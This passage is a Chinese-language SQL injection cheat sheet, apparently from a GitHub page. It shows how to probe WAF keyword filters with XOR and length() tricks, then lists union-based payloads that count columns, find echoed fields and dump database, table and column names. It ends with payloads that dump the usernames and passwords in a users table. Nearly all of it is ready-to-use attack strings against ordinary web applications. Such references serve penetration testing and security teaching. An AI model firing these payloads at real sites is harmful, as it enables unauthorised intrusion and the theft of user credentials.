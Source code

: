以select username from users where id='$VAR'为例
当 WAF 过滤 union、and 和 or 等关键词时
当 $VAR 传参为 1'^(length("and")=0)%23 时，由于 and 被过滤，length("")=0 为真，构造 id='1'^true#，'1'和 1 异或运算结果为 0，页面反馈错误
当 $VAR 传参为 1'^(length("good")=0)%23 时，构造 id='1'^false#，'1'和 0 异或预算结果为 1，页面正常
由此对过滤的关键词进行 fuzz

## 

## 判断查询语句中的字段数

使用 order/group by 语句，通过往后边拼接数字指导页面报错，可确定字段数量。

```python
1' order by 1#
1' order by 2#
1' order by 3#
1 order by 1
1 order by 2
1 order by 3
```

使用 union select 联合查询，不断在 union select 后面加数字，直到不报错，即可确定字段数量。

```python
1' union select 1#
1' union select 1,2#
1' union select 1,2,3#
1 union select 1#
1 union select 1,2#
1 union select 1,2,3#
```

## 获取数据库信息

确定显示数据的字段位置。使用 union select 1,2,3,4,... 根据回显的字段数，判断回显数据的字段位置。

```python
-1' union select 1#
-1' union select 1,2#
-1' union select 1,2,3#
-1 union select 1#
-1 union select 1,2#
-1 union select 1,2,3#
```

在回显数据的字段位置使用 union select 将我们所需要的数据查询出来即可。包括但不限于

```python
获取当前数据库名
-1' union select 1,2,database()--+ 
获取当前数据库的表名
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
获取表中的字段名
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3--+
获取数据
-1' union select 1,2,group_concat(id,0x7c,username,0x7c,password) from users--+
-1' union select 1,(select group_concat(id,0x7c,username,0x7c,password) from users),3--
```
